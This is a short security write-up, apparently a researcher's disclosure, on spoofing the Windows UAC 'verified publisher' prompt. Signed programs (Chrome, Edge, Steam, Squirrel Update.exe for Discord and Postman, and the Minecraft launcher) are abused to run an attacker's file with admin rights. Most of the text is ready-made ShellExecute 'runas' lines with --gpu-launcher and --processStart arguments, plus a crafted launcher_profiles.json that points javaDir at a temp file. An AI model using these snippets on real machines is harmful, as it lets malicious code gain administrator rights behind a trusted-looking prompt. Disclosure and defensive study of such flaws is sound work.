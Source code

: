 ```yaml
---
title: UAC Spoof (Not Fixed)
---
```


Spoofing the Windows UAC (user account control) prompt "verified" publisher :)  
PoCs can be found at <https://github.com/NDevTK/UACSpoof>  
![Chat](https://ndevtk.github.io/writeups/UAC.png)  

This is a very easy spoof since all it needs is a signed program to launch the attackers code while maintaining admin privileges.

# Chromium
Will run what ever program is set in `gpu-launcher` 
```js
App.ShellExecute "C:\Program Files\Google\Chrome\Application\chrome.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```
```js
App.ShellExecute "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```
```js
App.ShellExecute "C:\Program Files (x86)\Steam\bin\cef\cef.win7x64\steamwebhelper.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```

# Squirrel Updater
Will run what ever program is set in `processStart` 
```js
App.ShellExecute <Discord/Postman> + "Update.exe", "--processStart <FILE>", , "runas"
```

# Minecraft
Will run what ever program is set as the `javaDir` in `launcher_profiles.json` 
```js
Profiles = "{""profiles"":{""release"":{""created"":""1970-01-02T00:00:00.000Z"",""icon"":""Grass"",""javaDir"":""<RUNTIME>"",""lastUsed"":""1970-01-02T00:00:00.000Z"",""lastVersionId"":""latest-release"",""name"":"""",""type"":""latest-release""},""snapshot"":{""created"":""1970-01-01T00:00:00.000Z"",""icon"":""Dirt"",""javaDir"":""<RUNTIME>"",""lastUsed"":""1970-01-01T00:00:00.000Z"",""lastVersionId"":""latest-snapshot"",""name"":"""",""type"":""latest-snapshot""}},""settings"":{""crashAssistance"":true,""enableAdvanced"":false,""enableAnalytics"":true,""enableHistorical"":false,""enableReleases"":true,""enableSnapshots"":false,""keepLauncherOpen"":false,""profileSorting"":""ByLastPlayed"",""showGameLog"":false,""showMenu"":false,""soundOn"":false},""version"":3}"
Profiles = Replace(Profiles, "<RUNTIME>", Replace(Temp, "\", "\\"))
```
